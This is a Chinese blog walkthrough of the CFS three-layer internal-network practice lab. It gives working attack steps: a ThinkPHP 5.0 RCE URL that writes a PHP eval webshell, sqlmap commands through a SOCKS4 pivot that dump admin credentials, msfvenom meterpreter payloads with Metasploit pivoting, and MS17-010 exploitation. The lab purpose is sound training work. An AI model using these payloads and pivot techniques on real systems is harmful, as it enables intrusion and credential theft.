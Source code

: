 ```yaml
---
layout: post
title: "CFS三层内网靶场"
date: "2023-01-08T12:29:00.675Z"
---
```

CFS三层内网靶场
=========

**前言**

**最近学习了内网的一些知识，想着打一下靶场来试试，选择了这个CFS的三层内网靶场，做一下记录**

*   靶场下载地址

    链接：https://pan.baidu.com/s/1zGw5VNt222nCmfouVWLupQ   
    提取码：6u5e 

具体的环境配置以及靶机IP如下图所示：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107195315643-81802976.png)

1.对target1进行渗透

首先我们使用nmap对target1进行端口扫描，看看能不能找到什么开放的端口

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107195915461-500529482.png)

 可以看到，开放了80端口，以及8888端口，80端口是http网站得默认端口，8888端口对应的是宝塔的管理面板，那我们就访问80端口看看是什么页面

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107200032164-298392547.png)

 是一个thinkPhP5.0的框架，参考了网上文章，v5.0版本存在RCE漏洞：[https://blog.csdn.net/qq\_45557476/article/details/125275641](https://blog.csdn.net/qq_45557476/article/details/125275641)

那么我们就来构建poc，看看是不是能执行whoami的命令　　poc：http://192.168.75.129/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=whoami

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107200631588-1897372509.png)

 可以看到成功的返回信息，那么现在我们就可以网其中写入php一句话代码，因为这是一个靶场所以不需要对小马做免杀，直接echo写入即可

尝试写入phpinfo()

http://192.168.75.129/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20%22%3C?php%20phpinfo();?%3E%22%20%3E%20info.php

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107202639260-1109272332.png)

 成功了！写入小马http://192.168.75.129/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20%27%3C?php%20eval($\_REQUEST\[123\]);?%3E%27%20%3Eb.php,访问b.php发现文件存在，然后使用蚁剑连接。拿到第一个flag。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107204520697-843673768.png)

 2.对target2进行渗透

 现在拿到了target1主机的权限，那么现在把target1主机连接到到msf上

1)生成后门文件

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107213552287-1646542347.png)

 2）接受反弹

在target1上运行后门文件，可以使用chmod +x对文件进行简单的提权，使其可以运行，然后在kali上使用msf接受会话

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107220610563-1903089351.png)

 可以发现，这台主机有两张网卡，一个是22网段一个是75网段，那么我们现在需要攻击的主机就在22网段下

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107220819831-22032439.png)

 但是，我们实际上是没有对22网段机器的访问权限的，我们只能通过target1作为中介，去和22网段的机器进行交互，那么这个时候我们就需要使用msf首先给target1设置路由

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107221056980-1344819478.png)

 这时候所有kali发往22网段的请求在经过target1的时候会被转发，那么target1就好像是我们的一个代理服务器一般，但是就算在target1上添加上了这个路由，我们仍然需要在kali上进行代理设置才可以实现效果。这时候就可以用到sock4+proxychains4代理打通内网

开通sock4代理

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224507705-485268902.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224524621-1559356915.png)

修改proxychains4配置文件

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224550064-1958201262.png)

 节省时间只对目标机器做了扫描

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224638316-1845664988.png)

可以看到80端口开放，那么浏览器设置sock4代理去访问。

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224647003-132075390.png)

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224726116-658274807.png)

访问成功，可以看到是一个八哥CMS

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224737602-968320756.png)

访问http://192.168.22.129/robots.txt发现暴露了后台地址，成功进入后台地址，那么怎么拿到账号密码吗，在首页的html中给了我们sql注入的地址

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107224929122-344685082.png)

前台html代码给的sql注入点

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230107225054346-39712249.png)

sqlmap一把梭

sqlmap -u "http://192.168.22.129/index.php?r=vul&keyword=1" --proxy=socks4://192.168.75.128:2222 --dbs

sqlmap \-u "http://192.168.22.129/index.php?r=vul&keyword=1" --proxy=socks4://192.168.75.128:2222 -D bagecms --tables 

sqlmap \-u "http://192.168.22.129/index.php?r=vul&keyword=1" --proxy=socks4://192.168.75.128:2222 -D begacms -T bage\_admin --columns

sqlmap \-u "http://192.168.22.129/index.php?r=vul&keyword=1" --proxy=socks4://192.168.75.128:2222 -D begacms -T bage\_admin -C username,password --dump

拿到用户名密码admin 123qwe，可以看到flag

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200038005-441163890.png)

 3.对target3进行渗透

 在内容模板写入shell

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200055877-453215406.png)

 蚁剑设置代理192.168.75.128 2222，访问target2主机，发现33网段

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200200268-2123670182.png)

 因为是使用代理访问的22网段的shell 访问不到33网段 所以使用msf生成一个正向马

msfvenom -p linux/x86/meterpreter/bind\_tcp LPORT=4444 \-f elf -o test.elf

将马赋执行权限上传到webshell中 同时使用代理开启一个msf

proxychains4 msfconsole

使用代理的msf开启监听

use exploit/multi/handler 使用监听模块
set payload linux/x86/meterpreter/bind\_tcp 设置payload
set lport 4444 设置接收端口与msfvenoms生成端口一致
set rhost 192.168.22.129 设置目标主机(target2)

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200254758-2022878716.png)

 在target2上添加添加33网段路由

run autoroute -s 192.168.33.0/24

run autoroute \-p

使用msf扫描模块扫描端口

use auxiliary/scanner/portscan/tcp

发现 192.168.33.33 主机并开放 445、3389  敏感端口

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200352615-1595767465.png)

 msf尝试永恒之蓝

use auxiliary/scanner/smb/smb\_ms17\_010 检测ms17010是否存在

use exploit/windows/smb/ms17\_010\_psexe 利用ms17010

use auxiliary/admin/smb/ms17\_010\_command 这个exp可以执行命令

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230108200436993-980366502.png)

 至此三台靶机shell拿下了